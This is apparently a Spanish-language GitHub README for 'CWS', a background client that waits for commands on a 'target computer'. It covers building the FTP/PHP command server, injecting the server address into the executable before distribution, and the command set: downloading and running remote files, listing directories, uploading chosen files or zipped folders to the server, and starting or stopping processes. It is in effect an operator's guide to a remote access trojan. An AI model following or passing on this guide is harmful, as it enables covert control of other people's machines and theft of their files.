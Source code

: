 # CWS
A software waiting for commands. Like [Borocito](https://github.com/Zhenboro/Borocito)

## Creando el Servidor
CWS necesita de un servidor FTP para poder funcionar.
`CWS.exe` (desde ahora `CWScli`) es el ejecutable que se estará en segundo plano en el computador objetivo.
Una vez allí, `CWScli` comenzará su trabajo, pero antes es necesario poner el servidor en marcha.

Es muy fácil hacer que todo funcione.

### Estructura obligatoria
`CWScli` tiene una estructura predefinida en su código, solo falta que tú copies esta estructura en tu servidor.  
Con estructura me refiero a que los archivos, rutas y carpetas deben estar de cierta forma dentro de tu servidor.  

1. En un directorio principal. Deberás crear las siguientes carpetas:  
	- `CWS`  
	- Dentro de la carpeta `CWS` deberás crear una carpeta llamada `Users`.  
3. Dentro de la carpeta `CWS`. Deberás poner los siguientes archivos:  
	- `ReportIt.php`  
	- `cliResponse.php`  
	- `fileUpload.php`  
	- Opcionalmente, puedes poner `createFolder.php`. Aunque este no se utiliza.  

También deberás editar el archivo `General.ini`
Dentro de este deberás poner ciertos valores:
Las líneas con "`[]`" no las puedes editar.
Campos:
- `IsEnabled=True`: True/False. Si `CWScli` está disponible para funcionar. De estar en `false` todos los `CWScli` dejarán de funcionar.  
- `IsReading=True`: True/False. Si `CWScli` debe hacer caso a este archivo. De estar en `false` todos los `CWScli` dejarán de funcionar.  
- `Name=CWS`: Nombre del programa. En este caso se llama CWS. No editar ni modificar.  
- `Version=1.1.0.0`: Versión actual de CWS. Sí se publica una nueva release, deberás subir un .zip con la nueva versión de CWS.exe al servidor. Luego deberás editar este campo con la versión correspondiente.  
- `Download=null`: Link de descarga directo del .zip con el CWS.exe. Si hay una nueva versión, es esto lo que `CWScli` descargara para luego instalar.  
- `HostDomain=null`: Dominio. Es el link del servidor al que responde. Pone aquí tu el link a tu servidor.  
- `GeneralConfigFileReaderTimeout=60000`: Número. Cada cuanto tiempo se leerá este archivo.  
- `PrivateConfigFileReaderTimeout=60000`: Número. Cada cuanto tiempo verá por modificaciones en el archivo de control por usuario. (En resumen: cada cuanto tiempo verá por nuevos comandos).   

Luego de editarlo, súbelo al servidor dentro de la carpeta CWS.  

 4. Listo. El Servidor ya está configurado.  
		Un ejemplo del cómo debería quedar es:  
			Ejemplo:  
				Siendo HostDomain=http://mi-dominio.com  
				http://mi-dominio.com/CWS  
				http://mi-dominio.com/CWS/Users  
				http://mi-dominio.com/CWS/ReportIt.php  
				http://mi-dominio.com/CWS/cliResponse.php  
				http://mi-dominio.com/CWS/fileUpload.php  
				http://mi-dominio.com/CWS/General.ini  

## Inyectando tu Servidor
`CWScli` no funcionará si no sabe a qué servidor servir. Debes inyectar el link de tu servidor dentro de CWS.exe para que este funcione.  
La inyección debe hacerse con CWS Control.exe  

1. Dentro de CWS Contro.exe debes dirigirte a la pestaña "Injector".
2. En el campo "Ruta ejecutable" lo dejas en blanco xD.  
3. En el campo "HostDomain" debes poner tu servidor. Ejemplo: http://mi-dominio.com <- tal cual. "http://mi-dominio.com/" no sirve. Debe ser sin el / final.  
4. Una vez completado eso. Clic en el botón "INYECTAR" y te pedira que selecciones CWS.exe para poder escribir dentro de él el HostDomain.  
5. Listo. Un mensaje aparecerá confirmando la acción. El nuevo CWS.exe generado es el que se puede distribuir.  

## Controlando
Todos los computadores que tengan CWS.exe ejecutándose podrán ser controlados.  
Basta con ver la lista de comandos:  
- `/Network.DownloadComponent=<url>, <fileName>, <isCompressed>, <RunLater>, <mainFileName>, <Parameter>`  
	- `url`: link de descarga directo de algún complemento. (a un ejecutable, un comprimido, imagen o archivo de texto, etc).  
	- `fileName`: El nombre que recibirá el archivo descargado dentro del computador. (si la url conduce a descargar `hola.zip` tendrás que poner ese nombre junto a su extensión (`hola.zip`)).  
	- `isCompressed: True/False`. Si el archivo que se descargó es un .zip, entonces deberás poner `True`. Si es otro tipo de archivo (ejemplo: una imagen, archivo de texto, ejecutable, etc) entonces pone `False`.  
	- `mainFileName`: Es el nombre del archivo principal. Si él .zip contiene un archivo llamado `Hola.exe`, entonces pone aquí `Hola.exe`. Así `CWScli` sabrá que archivo debe ejecutar en caso de que `RunLater` este en `True`.  
	- `RunLater: True/False`. Si quieres que el archivo descargado se inicie debes poner `True`, si no quieres que se inicie, pone `False`.
	No es necesario que sea un .exe.
	Realmente si pones `True`, cualquier archivo iniciará.
	Sea una imagen (comenzara con la aplicación Fotos) o un archivo de texto (comenzara con Bloc de notas) y así.  
	- Parameters: Si es un ejecutable podrás poner parámetros para que este arranque. Si no es un ejecutable, entonces pon `null`.  
- `/FileSystem.GetFiles=<ruta_directorio>`  
	- `ruta_directorio`: La ruta a la cual se listaran todos los archivos. Ejemplo: `C:\Users\Zhenboro\Desktop`.  
	Eso devolverá todas las rutas de los archivos dentro de esta.  
- `/FileSystem.GetDirectories=<ruta_directorio>`  
	- `ruta_directorio`: La ruta a la cual se listaran todas las carpetas.  
	Ejemplo: `C:\Program Files`.  
	Eso devolverá todas las rutas de las carpetas dentro de esta.  
- /Network.GetFile=<ruta_archivo>  
	- `ruta_archivo`: Ruta del archivo que quieres se suba al servidor.  
	Ejemplo: `C:\Users\Zhenboro\Desktop\Registros.docx` este archivo Registros.docx se subirá al servidor y lo podrás ver.  
	**(Cuidado: Si el archivo es muy grande, podría dañarse mientras se sube. También ten en cuenta que algunos servicios de hosting no permiten subidas de ciertos tipos de archivo)**
- `/Network.GetFolder=<ruta_directorio>`  
	- `ruta_directorio`: Ruta del directorio que quieres se suba al servidor.  
	Ejemplo: `C:\Users\Zhenboro\Desktop` todos los archivos y carpetas dentro de la carpeta `Desktop` serán comprimidos en un .zip y luego este se subirá al servidor.  
	**(Cuidado: Si el hay muchos archivos, él .zip podría no subirse. También ten en cuenta que algunos servicios de host no permiten la subida de archivos .zip)**
- `/Process.Start=<ruta_archivo>, <Parameter>`  
	- `ruta_archivo`: Indica la ruta del archivo que quieres iniciar. Puede ser un archivo de texto, imagen, etc.  
	Ejemplo: `C:\Users\Zhenboro\Desktop\programa.exe` o `winword.exe` (sin indicar la ruta, Microsoft Word puede ser arrancado sin indicar la ruta, también pasa con, por ejemplo, cmd.exe, firefox.exe, etc...).  
	Incluso mostrar una página web (msedge.exe,http://midominio.com)  
	- `Parameter`: Sí es un ejecutable, podrás pasar parámetros. Si no, déjalo vacío.  
- `/Process.Stop=<nombre_proceso>`  
	- `nombre_proceso`: Nombre del programa a cerrar. Ejemplo: `winword` (sin extensión)  
- /Stop  
Detiene la instancia de CWS.exe  
